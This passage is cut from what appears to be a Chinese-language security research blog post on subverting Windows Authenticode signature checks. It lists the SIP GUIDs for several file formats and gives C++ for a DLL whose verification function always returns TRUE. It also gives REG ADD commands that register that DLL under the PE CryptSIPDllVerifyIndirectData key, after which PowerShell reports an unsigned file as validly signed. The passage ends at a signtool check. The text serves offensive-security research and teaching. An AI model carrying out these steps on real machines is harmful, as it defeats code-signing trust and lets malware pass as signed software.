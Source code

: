 发现该函数，返回TRUE代表验证成功，返回FALSE代表验证失败

该功能对应注册表键值，位置如下：

`HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-10/3-2.png)

不同GUID对应不同文件格式的验证，例如：

- C689AAB8-8E78-11D0-8C47-00C04FC295EE - PE
- DE351A43-8E59-11D0-8C47-00C04FC295EE - catalog	.cat文件 	 
- 9BA61D3F-E73A-11D0-8CD2-00C04FC295EE - CTL 		.ctl文件
- C689AABA-8E78-11D0-8C47-00C04FC295EE - cabinet 	.cab文件

**注：**

GUID说明引用自[《Subverting Trust in Windows》](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf) Page4

接下来，尝试替换`HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}`下的dll和FuncName

通过c++实现，创建dll，添加导出函数，格式参照`CryptSIPVerifyIndirectData`，代码如下：

```
BOOL WINAPI CryptSIPVerifyIndirectData(SIP_SUBJECTINFO *pSubjectInfo, SIP_INDIRECT_DATA *pIndirectData)
{
	return TRUE;
}
```

编译生成signtest.dll

修改注册表：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\signtest.dll" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "CryptSIPVerifyIndirectData" /f
```

重新启动cmd，使用powershell进行验证：

```
Get-AuthenticodeSignature .\si.exe
```

显示Valid，校验成功

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-10/3-3.png)

通过signtool.exe验证：
